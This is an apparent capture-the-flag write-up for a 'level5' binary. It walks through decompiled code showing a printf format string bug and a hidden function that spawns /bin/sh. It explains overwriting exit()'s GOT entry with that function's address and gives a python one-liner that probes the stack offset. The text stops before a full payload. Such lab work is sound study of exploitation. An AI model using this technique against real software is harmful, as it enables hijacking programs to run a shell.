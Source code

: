 ## Basic analysis
There is level5 binary waiting for us and again, it behaves just the same - printing what it reads from stdin:

./level5
42 let me pass
42 let me pass

OK, Ghidra it is:
~~~C
void main(void)

{
  n();
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
~~~
This time **main()** calls the function **n()** which just prints the input and exits. Upon further examination, we will find
another function, **o()**:
~~~C
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}
~~~
This, as we can see, will be our target as it will trigger the shell for us. Memory position: **0x080484a4**

## Format string attack
We will be using format string attack again, but there is one big difference here: as we can see, both **o()** and **n()** does not
return, but using **exit()** instead, preventing the overwrite with format string. Thus, we will have to overwrite the call to exit with the **o()** function.

We will do this by overwriting the **GOT** (Global Offset Table] address - we will link it to the **o()** function.
We can use Ghidra's symbol tree to find **.got.plt** object - which is a part of GOT with pointers to funtions from the **PLT** (Procedure Linkage Table). In simple terms, it is a contact list to functions called from outside of the binary runtime. When we examine the .obj.plt, we find out that the address of **exit** is **0x08049838**.
Now, we can prepare the payload:
~~~shell
address of exit() in hex - %addressofoindecimalx + positioning of exit
~~~
We will firstly find the exit() function:
~~~shell
python -c "print '\x08\x04\x98\x38'[::-1] + '%x '*10" | ./level5
~~~



